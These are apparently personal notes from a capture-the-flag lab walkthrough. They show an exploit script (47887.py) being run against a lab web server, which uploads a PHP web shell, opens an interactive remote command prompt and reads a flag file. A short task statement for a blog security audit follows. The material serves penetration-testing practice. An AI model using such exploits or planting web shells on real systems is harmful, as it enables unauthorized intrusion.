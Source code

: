 Looking into the script file  (nano // -help)
```
root@ip-10-10-113-30:~# python3 47887.py -h
usage: 47887.py [-h] url

positional arguments:
  url         The URL of the target.

optional arguments:
  -h, --help  show this help message and exit
```
![[Pasted image 20240807154306.png]]

Running the exploit file accordingly:
```
root@ip-10-10-113-30:~# python3 47887.py http://10.10.69.132  !!!
> Attempting to upload PHP web shell...
> Verifying shell upload...
> Web shell uploaded to http://10.10.69.132/bootstrap/img/o5KiH8doVD.php
> Example command usage: http://10.10.69.132/bootstrap/img/o5KiH8doVD.php?cmd=whoami
> Do you wish to launch a shell here? (y/n): y 
RCE $ ls           !!!
OyWjgNLIbq.php
android_studio.jpg
beauty_js.jpg
c_14_quick.jpg
c_sharp_6.jpg
doing_good.jpg
flag.txt         !!!
img1.jpg
img2.jpg
img3.jpg
kotlin_250x250.png
logic_program.jpg
mobile_app.jpg
o5KiH8doVD.php
pro_asp4.jpg
pro_js.jpg
t73N0AoVQ2.php
unnamed.png
web_app_dev.jpg

RCE $ cat flag.txt  !!!
```

2) Ackme Support Incorporated has recently set up a new blog. Their developer team have asked for a security audit to be performed before they create and publish articles to the public --> our task is to perform a security audit on the blog; looking for and abusing any vulnerabilities that we may find.